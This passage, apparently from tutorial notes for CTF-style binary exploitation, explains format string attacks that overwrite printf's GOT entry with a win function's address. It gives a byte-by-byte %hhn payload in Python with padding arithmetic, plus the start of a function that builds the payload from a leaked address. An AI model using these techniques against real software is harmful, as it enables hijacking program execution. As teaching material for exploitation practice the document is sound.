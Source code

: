 + Suppose we want to overwrite the GOT entry for `printf` @ `0x8049843` with the address of a win function @ `0x08048536`
+ We can can do so one byte at a time with `hhn` in the following fashion

```python
    payload = b""
    payload += p32(got_printf)          # <- Lowest byte
    payload += p32(got_printf + 1)      # <- 2rd lowest byte
    payload += p32(got_printf + 2)      # <- 3rd lowest byte
    payload += p32(got_printf + 3)      # <- 4th lowest byte

    # --- We subtract 16 off 0x36 here
    # to account for the 16 bytes of 
    # addresses we have already written
    payload += b"%38c%3$hhn"            # @0x36 <- 54 - 16  = 38 (4 addrs @ 4 bytes each)
    
    # --- We proceed by simply 
    # subtracting the previous byte
    # from the current byte and 
    # writing that decimal value 
    payload += b"%79c%4$hhn"            # @0x85 <- 0x85 - 0x36

    # --- Where the value we wish 
    # to write is negative we
    # can overflow the value to
    # the desired one by adding
    # 0x100 padding to wrap around
    payload += b"%127c%5$hhn"           # @0x04 <- (0x04 - 0x85) + 0x100
    payload += b"%4c%6$hhn"             # @0x08 <- (0x08 - 0x04)
```
+ Note the changing byte reference alongside the format specifier 
+ In many cases your address in the buffer will be further away then the example demonstrates and thus the referenced bytes will need to be changed accordingly 

## Writing Values In Dynamic Ecosystems

+ As will often be the case enabled memory protections will prevent the hardcoding of addresses in format string payloads meaning that they will need to be constructed dynamically using a leak and offset calculations

### Example

+ The following demonstrates the construction of a function to generate  a format string payload to overwrite a GOT entry with the address of a win function dynamically

```python

def build_payload(leaked_address):
    ##
       #
        # win() @ <leaked_address - 0x399d> 
       #
    ##

    win_offset = 0x399d
    win_addr = (int(leaked_address, 16) - win_offset)

    ##
       #
        #  printf GOT @ <leaked_address - 0x204>
       #
    ##

    printf_got = (int(leaked_address, 16) - 0x204)
    
```